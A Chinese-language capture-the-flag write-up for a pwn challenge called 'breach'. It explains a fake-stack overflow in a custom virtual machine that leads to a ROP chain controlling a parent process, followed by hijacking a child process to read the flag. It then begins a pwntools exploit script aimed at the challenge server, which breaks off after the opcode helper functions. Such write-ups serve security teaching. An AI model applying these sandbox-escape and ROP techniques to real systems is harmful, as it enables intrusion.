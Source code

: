 ```python
```

我们有56字节的空间，虚拟机的任何系统调用都要使用fake_stack完成，我们可以通过调用虚拟机实现的syscall调用read，向fake_stack写入rop链，从而控制父进程。

控制父进程后，由于不能使用open，还是不能打开flag。但是子进程没有这个限制，在strace中我们可以看到子进程会先读取父进程传递的输入的size，而且调试后可以发现子进程也是向代码段读取输入，并且会回到0x4bc执行虚拟机指令。同理我们可以给子进程一个很大的size，发送payload覆盖子进程的虚拟机指令，然后在子进程中实现fake_stack的栈溢出。从而控制子进程读取flag，并返回给父进程。父进程读取并输出即可。

### Exp

```python
from pwn import *
leak = lambda name,addr: log.success('{0}\t--->\t{1}'.format(name, hex(addr)))

binary = './breach'
libc = './libc.so.6'
context.terminal = ['tmux', 'splitw', '-h']
# context.binary = binary
# context.log_level='debug'
# p = gdb.debug(["./breach", "./breach.bin"], '''
#               b fopen
#               follow child
#               ''')
p = remote('mc.ax',  31618)
elf = ELF(binary, checksec=False)
libc = ELF(libc, checksec=False)

alu_list = {
    "+": 0,
    "-": 1,
    "*": 2,
    "%": 3,
    "&": 4,
    "|": 5,
    "^": 6,
    ">>": 7
}

def Exit(): # 1
    return "\x00"
def Mov_r_i(dst, imm): # 9
    opcode = p8((dst<<4)+1) + p64(imm)
    return opcode
def Mov_r_r(dst, src): # 2
    opcode = p8(2) + p8((src<<4) + dst)
    return opcode
def Alu(op, dst, src): # 2
    opcode = p8((alu_list[op]<<4)+3) + p8((src<<4) + dst)
    return opcode
def Mov_d_r(dst, src): # 2
    opcode = p8(4) + p8((src<<4) + dst)
    return opcode
def Mov_r_d(dst, src): # 2
    opcode = p8(5) + p8((dst<<4) + src)
    return opcode
def Mov_r_c(dst, src): # 2
    opcode = p8(6) + p8((dst<<4) + src)
    return opcode
def Jmp_i(imm):  # 9   
    opcode = p8(7) + p64(imm)
    return opcode
def Jmp_r(reg): 
    opcode = p8((reg<<4)+8)
    return opcode
```